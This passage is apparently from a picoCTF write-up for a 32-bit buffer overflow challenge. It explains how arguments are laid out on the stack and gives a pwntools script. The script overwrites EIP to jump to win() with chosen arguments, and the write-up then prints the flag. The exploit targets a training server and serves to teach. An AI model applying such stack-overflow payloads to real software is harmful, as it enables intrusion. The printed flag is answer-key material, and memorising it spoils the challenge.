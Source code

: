  - The next option is to use `pwntools` , send the character sequence generated followed by the address we want to overwrite the `eip` pointer with, added arguments value with it. Note that :
   - A separator (you can use null bytes `\x00\x00\x00\x00`) must be added between the function address and arguments
   - Before adding the arguments, check the calling convention for 32-bits binaries :

```
...
Function Address
Nth Argument
N-1th Argument
...
1st Argument
```

We can create a python script for that : 

```python
#! /usr/bin/python3


from pwn import *

HOST = 'saturn.picoctf.net'
PORT = 62302

p = remote(HOST, PORT)

p.sendlineafter(b'Please enter your string: \n', b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab\x96\x92\x04\x08\x00\x00\x00\x00\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0')
p.interactive()
```

After executing that code, first, the pointers will be overwrited of the `vuln` program but we will find that the `eip` pointer will be overwrittend with our specific address, this will make him jump to the `win()` instead of returning to the main function, and after passing checks and execute prints out the flag.

**Note :** in order to run `vuln` binary, add execution permissions to it.

## Flag

picoCTF{argum3nt5_4_d4yZ_31432deb}

## More information :

https://0xrick.github.io/binary-exploitation/bof3/?fbclid=IwAR2Mppoig0o57gQUBm1YQIGH44tBtqWeRB3Jr56RrAFlTzq96qFj5WR_vp8
https://courses.cs.washington.edu/courses/cse374/18sp/lectures/20-buffer-overflows.html?fbclid=IwAR04qbKpLA2emy0_RunFvULwi2qXYSR8-9WtdsawX-bvM5DNWi4l187gOwA
https://security.stackexchange.com/questions/172053/how-to-pass-parameters-with-a-buffer-overflow?fbclid=IwAR3PLNV40nBPjhyleXTOnxpZneH-6-cYn-NyxXcXcB_pAXoYRRmzOodOmKU
https://www.tenouk.com/Bufferoverflowc/Bufferoverflow2a.html
https://en.wikipedia.org/wiki/X86_calling_conventions
https://www.google.com/search?q=buffer+overflow+32+bits+calling+convention&client=firefox-b-e&ei=qy11Y8WQK4GskdUPk82UiAI&oq=buffer+overflow+32+bits+calling+conve&gs_lcp=Cgxnd3Mtd2l6LXNlcnAQAxgBMgUIIRCgATIFCCEQoAEyBQghEKABOgoIABBHENYEELADOgYIABAWEB46BAghEBU6CAghEBYQHhAdOgcIIRCgARAKSgQIQRgASgQIRhgAUJUCWK8nYNs6aAFwAXgAgAHYA4gBoiCSAQgyLTEwLjIuMpgBAKABAcgBCMABAQ&sclient=gws-wiz-serp
https://www.0x0ff.info/2021/advanced-buffer-overflow-bypass-aslr-32-bits/
